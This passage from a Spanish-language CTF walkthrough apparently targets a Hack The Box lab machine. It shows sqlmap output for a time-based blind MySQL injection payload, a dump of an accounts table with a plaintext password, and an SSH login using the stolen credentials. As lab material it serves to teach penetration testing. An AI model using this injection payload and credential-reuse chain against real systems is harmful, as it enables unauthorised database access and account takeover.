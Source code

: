 ```bash
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4486 FROM (SELECT(SLEEP(5)))txQM)
---
[14:59:49] [INFO] the back-end DBMS is MySQL
...
```

---
**IMPORTANTE**: 

Esto puede tardar un poco, así que sé paciente y a lo mejor te pregunta algo la captura a lo que debes responder que si.

---

* ¡Y listo! Tenemos las credenciales del usuario:
```bash
[15:17:11] [ERROR] invalid character detected. retrying..
[15:17:11] [WARNING] increasing time delay to 4 seconds
ayer@player.htb
[15:21:18] [INFO] retrieved: 1324
[15:22:21] [INFO] retrieved: PlayerOftheMatch2022
[15:27:39] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
[15:29:19] [INFO] table 'soccer_db.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/soccer_db/accounts.csv'
[15:29:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'
[*] ending @ 15:29:19 /2023-04-12/
```

Vamos a probar estas credenciales en el **servicio SSH**:
```bash
ssh player@10.10.11.194                                            
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 12 21:40:39 UTC 2023

  System load:           0.0
  Usage of /:            71.1% of 3.84GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             239
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.194
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c62b

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge
```